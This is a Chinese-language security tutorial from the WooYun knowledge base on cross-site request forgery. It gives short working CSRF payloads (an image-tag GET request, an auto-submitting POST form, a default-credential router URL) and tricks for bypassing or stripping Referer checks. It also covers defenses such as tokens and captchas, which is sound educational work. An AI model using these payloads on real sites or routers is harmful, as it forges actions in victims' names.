 # CSRF 简单介绍及利用方法

2013/07/02 12:24 | [VIP](http://drops.wooyun.org/author/VIP "由 VIP 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

### 0x00 简要介绍

* * *

CSRF（Cross-site request forgery）跨站请求伪造，由于目标站无 token/referer 限制，导致攻击者可以用户的身份完成操作达到各种目的。根据 HTTP 请求方式，CSRF 利用方式可分为两种。

### 0x01 GET 类型的 CSRF

* * *

这种类型的 CSRF 一般是由于程序员安全意识不强造成的。GET 类型的 CSRF 利用非常简单，只需要一个 HTTP 请求，所以，一般会这样利用：

```
<img src=http://wooyun.org/csrf.php?xx=11 /> 
```

如下图，在访问含有这个 img 的页面后，成功向 http://wooyun.org/csrf.php?xx=11 发出了一次 HTTP 请求。所以，如果将该网址替换为存在 GET 型 CSRF 的地址，就能完成攻击了。

![20130701174309_63157_jpg.jpg](img/img1_u10_jpg.jpg)

乌云相关案例：

http://wooyun.org/bugs/wooyun-2010-023783

http://wooyun.org/bugs/wooyun-2010-027258 (还未公开)

### 0x02 POST 类型的 CSRF

* * *

这种类型的 CSRF 危害没有 GET 型的大，利用起来通常使用的是一个自动提交的表单，如：

```
<form action=http://wooyun.org/csrf.php method=POST>
<input type="text" name="xx" value="11" />
</form>
<script> document.forms[0].submit(); </script> 
```

访问该页面后，表单会自动提交，相当于模拟用户完成了一次 POST 操作。

乌云相关案例：

http://wooyun.org/bugs/wooyun-2010-026622

http://wooyun.org/bugs/wooyun-2010-022895

### 0x03 其他猥琐流 CSRF

* * *

过基础认证的 CSRF(常用于路由器):

POC:

```
<img src=http://admin:admin@192.168.1.1 /> 
```

加载该图片后，路由器会给用户一个合法的 SESSION，就可以进行下一步操作了。

乌云相关案例：

[WooYun: TP-LINK 路由器 CSRF，可干许多事（影响使用默认密码或简单密码用户）](http://www.wooyun.org/bugs/wooyun-2013-026825)

### 0x04 如何修复

* * *

针对 CSRF 的防范，有以下几点要注意：

#### 关键操作只接受 POST 请求

#### 验证码

CSRF 攻击的过程，往往是在用户不知情的情况下构造网络请求。所以如果使用验证码，那么每次操作都需要用户进行互动，从而简单有效的防御了 CSRF 攻击。

但是如果你在一个网站作出任何举动都要输入验证码会严重影响用户体验，所以验证码一般只出现在特殊操作里面，或者在注册时候使用

#### 检测 refer

常见的互联网页面与页面之间是存在联系的，比如你在 www.baidu.com 应该是找不到通往 www.google.com 的链接的，再比如你在论坛留言，那么不管你留言后重定向到哪里去了，之前的那个网址一定会包含留言的输入框，这个之前的网址就会保留在新页面头文件的 Referer 中

通过检查 Referer 的值，我们就可以判断这个请求是合法的还是非法的，但是问题出在服务器不是任何时候都能接受到 Referer 的值，所以 Refere Check 一般用于监控 CSRF 攻击的发生，而不用来抵御攻击。

#### Token

目前主流的做法是使用 Token 抵御 CSRF 攻击。下面通过分析 CSRF 攻击来理解为什么 Token 能够有效

CSRF 攻击要成功的条件在于攻击者能够预测所有的参数从而构造出合法的请求。所以根据不可预测性原则，我们可以对参数进行加密从而防止 CSRF 攻击。

另一个更通用的做法是保持原有参数不变，另外添加一个参数 Token，其值是随机的。这样攻击者因为不知道 Token 而无法构造出合法的请求进行攻击。

Token 使用原则

```
Token 要足够随机————只有这样才算不可预测
Token 是一次性的，即每次请求成功后要更新 Token————这样可以增加攻击难度，增加预测难度
Token 要注意保密性————敏感操作使用 post，防止 Token 出现在 URL 中 
```

### 0x05 测试 CSRF 中注意的问题

* * *

如果同域下存在 xss 的话，除了验证码，其他的方式都无法防御这个问题。

有个程序后端可能是用 REQUEST 方式接受的，而程序默认是 POST 请求，其实改成 GET 方式请求也可以发送过去，存在很严重的隐患。

当只采用 refer 防御时，可以把请求中的修改成如下试试能否绕过：

原始 refer：`http://test.com/index.php`

测试几种方式（以下方式可以通过的话即可能存在问题）：

```
http://test.com.attack.com/index.php

http://attack.com/test.com/index.php

[空] 
```

refer 为空构造的方法：

```
由于浏览器特性，跨协议请求时不带 refer（Geckos 内核除外），比如 https 跳到 http，如果 https 环境不好搭建的话，ftp 其实也是可以的：）

<iframe src="data:text/html,<script src=http://www.baidu.com></script>"> //IE 不支持

利用 xxx.src='javascript:"HTML 代码的方式"'; 可以去掉 refer，IE8 要带。
<iframe id="aa" src=""></iframe>
<script>
document.getElementById("aa").src='javascript:"<html><body>wooyun.org<scr'+'ipt>eval(你想使用的代码)</scr'+'ipt></body></html>"';
</script>
//来自于二哥 gainover 
```

**Tags:** [CSRF](http://drops.wooyun.org/tag/csrf)

版权声明：未经授权禁止转载 [VIP](http://drops.wooyun.org/author/VIP "由 VIP 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [利用 CSP 探测网站登陆状态（alipay/baidu 为例）](http://drops.wooyun.org/tips/4482)
*   [熵不起得随机数](http://drops.wooyun.org/tips/1060)
*   [攻击 JavaWeb 应用[2]-CS 交互安全](http://drops.wooyun.org/tips/164)
*   [Web 攻击日志分析的过去现在与未来](http://drops.wooyun.org/tips/4051)
*   [IPS BYPASS 姿势](http://drops.wooyun.org/papers/4323)
*   [论 PHP 常见的漏洞](http://drops.wooyun.org/papers/4544)